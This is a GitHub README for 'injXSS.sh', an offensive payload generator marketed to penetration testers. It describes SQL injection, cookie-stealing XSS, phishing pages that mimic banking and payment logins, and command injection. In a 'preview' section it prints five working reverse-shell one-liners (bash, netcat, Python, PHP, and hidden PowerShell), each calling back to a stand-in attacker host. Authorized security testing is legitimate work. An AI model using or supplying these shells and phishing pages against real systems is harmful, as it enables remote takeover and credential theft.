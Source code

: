# injXSS.sh

injXSS.sh is a powerful and comprehensive payload generator designed for penetration testers and security researchers. This script provides a categorized and detailed collection of payloads for web security testing, covering SQL Injection, XSS, JavaScript Injection, HTML Injection, Phishing, Command/System Injection, and Reverse Shell attacks. It’s an indispensable tool for identifying and exploiting vulnerabilities in web applications and server configurations.


---

Features

1. SQL Injection Payloads

Efficiently test database vulnerabilities using a variety of payloads, including:

Classic SQL Injection: Exploit OR conditions for authentication bypass or data retrieval.

Union-Based Injection: Retrieve data using UNION SELECT techniques.

Error-Based Injection: Extract information through database error messages.

Blind SQL Injection: Test without visible feedback using Boolean or Time-based methods.

Advanced Payloads: Dump database schemas, extract sensitive data, execute system commands, and create backdoors.


2. Cross-Site Scripting (XSS) Payloads

Exploit client-side vulnerabilities with payloads such as:

Reflected XSS: Inject malicious scripts through query parameters or user input.

Stored XSS: Exploit persistent injection points to deliver malicious scripts to other users.

DOM-Based XSS: Manipulate the DOM to execute scripts dynamically.

Advanced XSS Techniques: Bypass Content Security Policies (CSP), attack modern JavaScript frameworks (e.g., AngularJS, ReactJS), and steal cookies.


3. JavaScript Injection Payloads

Generate payloads for browser-based attacks, including:

Manipulate DOM Elements: Exploit document.write and eval.

Session and Local Storage Attacks: Extract sensitive session or local data.

Cross-Origin Requests: Send malicious XMLHttpRequests or hijack WebSocket connections.

Dynamic Payloads: Trigger JavaScript code through event listeners or hidden elements.


4. HTML Injection Payloads

Simulate malicious input to test HTML vulnerabilities:

Create fake forms, inject malicious tags like <iframe>, <embed>, and <script>.

Exploit SVG, CSS, and image attributes to execute hidden attacks.

Simulate phishing through HTML manipulation of visible elements.


5. Phishing Payloads

Design realistic phishing scenarios to assess user awareness:

Fake login forms for social media, email, banking, or cloud platforms.

Pages mimicking payment gateways and account recovery.

Embed malicious file upload forms to compromise user data.


6. Command & System Injection Payloads

Test server-side vulnerabilities, including:

Execute system commands on Linux and Windows.

Deploy reverse shells for persistent access.

Manipulate and retrieve sensitive server files, such as /etc/passwd or database configurations.


7. Reverse Shell Payloads (Full List)

Comprehensive reverse shell payloads for gaining remote access to compromised systems:

Reverse shells for Linux, Windows, and macOS.

Payloads using popular tools such as bash, netcat, Python, Perl, PHP, and PowerShell.

Variants for different network environments, including dynamic ports and encrypted communication.


Here’s a preview of some reverse shell payloads:

# Bash Reverse Shell
bash -i >& /dev/tcp/attacker_ip/4444 0>&1  

# Netcat Reverse Shell
nc -e /bin/bash attacker_ip 4444  

# Python Reverse Shell
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("attacker_ip",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'  

# PHP Reverse Shell
php -r '$sock=fsockopen("attacker_ip",4444);exec("/bin/bash -i <&3 >&3 2>&3");'  

# PowerShell Reverse Shell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("attacker_ip",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close()


---

Usage

1. Clone the repository:



git clone https://github.com/yourusername/injXSS.git  
cd injXSS

2. Make the script executable:



chmod +x injXSS.sh

3. Run the script:



./injXSS.sh


---

Purpose

This tool is built to support:

Ethical hackers and penetration testers.

Security researchers working on real-world vulnerability identification.


Authorized Testing Only: This script must only be used on systems where you have explicit permission to conduct testing.


---

Contribution

Contributions are welcome! You can:

Submit pull requests with new features or payloads.

Report bugs or issues.

Suggest improvements to enhance the tool.



---

Disclaimer

injXSS.sh is intended for ethical purposes only. The author is not responsible for any misuse or damage caused by this tool. Always ensure you have proper authorization before performing any penetration testing.
